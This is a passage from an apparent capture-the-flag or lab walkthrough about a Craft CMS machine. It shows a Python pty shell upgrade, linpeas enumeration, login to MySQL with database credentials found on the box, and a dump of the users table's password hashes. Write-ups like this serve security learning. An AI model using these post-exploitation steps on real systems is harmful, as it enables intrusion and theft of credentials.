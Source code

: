 ```
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl + z (To background)
stty raw -echo && fg
export TERM=xterm
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9c434f52-ae88-4f79-9b91-c24a0a723ace)

Cool, now lets go ahead to escalate our privileges


# Privilege Escalation (To Matthew)

Running linpeas, found these interesting stuffs

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/d388166c-55cd-478b-b298-4e15fdad0c47)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b2d9cef-110d-4ab4-a82d-bce5e0b8edf4)

These are database passwords

Lets try to connect to `craftdb`

command:`mysql -u craftuser -p`

password:`CraftCMSPassword2023!`

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a3ad53d6-c8a4-4b5a-b8b6-bbde9e4f68ee)

Nice Nice, we are connected hehe. Now lets try to dump the user table

```
show databases;
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0674fdb4-0ca0-4b31-aa6c-e2ac60ec11c7)

Now we can use the below commands to dump the user table

```
use craftdb;
show tables;
select id,username,fullname,email,password from users; 
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2d44147d-b8da-4c00-8bd7-1a67565b222a)

cool, we found a hashed password. But trust me I couldn't crack this just the same way I couldn't crack Engineering Statics in school😅.

Moving on, I also found this interesting file from the output I got from linpeas

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b499ca69-d237-412d-8104-f254d7751905)

Lets download this to our machine
